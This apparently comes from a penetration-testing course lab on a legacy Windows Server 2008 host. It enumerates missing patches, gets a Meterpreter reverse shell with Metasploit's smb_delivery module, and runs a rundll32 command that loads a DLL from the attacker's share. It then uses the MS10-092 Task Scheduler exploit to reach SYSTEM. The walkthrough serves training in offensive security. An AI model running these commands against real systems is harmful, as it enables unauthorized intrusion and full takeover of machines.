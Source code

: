 For an older OS like Windows Server 2008, we can use an enumeration script like [Sherlock](https://github.com/rasta-mouse/Sherlock) to look for missing patches. We can also use something like [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), which takes the results of the `systeminfo` command as an input, and compares the patch level of the host against the Microsoft vulnerability database to detect potential missing patches on the target. If an exploit exists in the Metasploit framework for the given missing patch, the tool will suggest it. Other enumeration scripts can assist us with this, or we can even enumerate the patch level manually and perform our own research. This may be necessary if there are limitations in loading tools on the target host or saving command output.

#### Querying Current Patch Level

Let's first use WMI to check for missing KBs.

Windows Server

```cmd-session
C:\htb> wmic qfe

Caption                                     CSName      Description  FixComments  HotFixID   InstallDate  InstalledBy               InstalledOn  Name  ServicePackInEffect  Status
http://support.microsoft.com/?kbid=2533552  WINLPE-2K8  Update                    KB2533552               WINLPE-2K8\Administrator  3/31/2021
```

A quick Google search of the last installed hotfix shows us that this system is very far out of date.

```powershell-session
PS C:\htb> Set-ExecutionPolicy bypass -Scope process
```
```powershell-session
PS C:\htb> Import-Module .\Sherlock.ps1
PS C:\htb> Find-AllVulns
```
## Exploiting legacy Windows servers with metasploit

From the output, we can see several missing patches. From here, let's get a Metasploit shell back on the system and attempt to escalate privileges using one of the identified CVEs. First, we need to obtain a `Meterpreter` reverse shell. We can do this several ways, but one easy way is using the `smb_delivery` module.

`look for an x64 payload`
```shell-session
msf6 exploit(windows/smb/smb_delivery) > search smb_delivery



   SRVHOST      10.10.14.3       yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      445              yes       The local port to listen on.
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```
#### select target `DLL`
```
msf6 exploit(windows/smb/smb_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   DLL
   1   PSH

msf6 exploit(windows/smb/smb_delivery) > set target 0

target => 0
```

```
msf6 exploit(windows/smb/smb_delivery) > exploit 
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Started service listener on 10.10.14.3:445 
[*] Server started.
[*] Run the following command on the target machine:
rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
```
Run the file that has been placed by meteasploit at the share location
```cmd-session
C:\htb> rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
```

#### Searching for Local Privilege Escalation Exploit

From here, let's search for the [MS10_092 Windows Task Scheduler '.XML' Privilege Escalation](https://www.exploit-db.com/exploits/19930) module.

```shell-session
msf6 exploit(windows/smb/smb_delivery) > search 2010-3338

Matching Modules
================
   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/windows/local/ms10_092_schelevator  2010-09-13       excellent  Yes    Windows Escalate Task Scheduler XML Privilege Escalation
   
   
msf6 exploit(windows/smb/smb_delivery) use 0
```

#### Migrating to a 64-bit Process from a 32bit payload

Before using the module in question, we need to hop into our Meterpreter shell and migrate to a 64-bit process, or the exploit will not work. We could have also chosen an x64 Meterpeter payload during the `smb_delivery` step.
```shell-session
msf6 post(multi/recon/local_exploit_suggester) > sessions -i 1
```
```shell-session
meterpreter > getpid

Current pid: 2268

# get processes so you can select a 64bit process.
meterpreter > ps
```

```shell-session
meterpreter > migrate 2796

[*] Migrating from 2268 to 2796...
[*] Migration completed successfully.


meterpreter > background

[*] Backgrounding session 1...
```

#### Setting Privilege Escalation Module Options

Once this is set, we can now set up the privilege escalation module by specifying our current Meterpreter session, setting our tun0 IP for the LHOST, and a call-back port of our choosing.

```shell
msf6 exploit(windows/local/ms10_092_schelevator) > set SESSION 1

SESSION => 1


msf6 exploit(windows/local/ms10_092_schelevator) > set lhost 10.10.14.3

lhost => 10.10.14.3


msf6 exploit(windows/local/ms10_092_schelevator) > set lport 4443

lport => 4443


msf6 exploit(windows/local/ms10_092_schelevator) > show options

Module options (exploit/windows/local/ms10_092_schelevator):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CMD                        no        Command to execute instead of a payload
   SESSION   1                yes       The session to run this module on.
   TASKNAME                   no        A name for the created task (default random)
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     4443             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   Windows Vista, 7, and 2008
```

If all goes to plan, once we type `exploit`, we will receive a new Meterpreter shell as the `NT AUTHORITY\SYSTEM` account and can move on to perform any necessary post-exploitation.

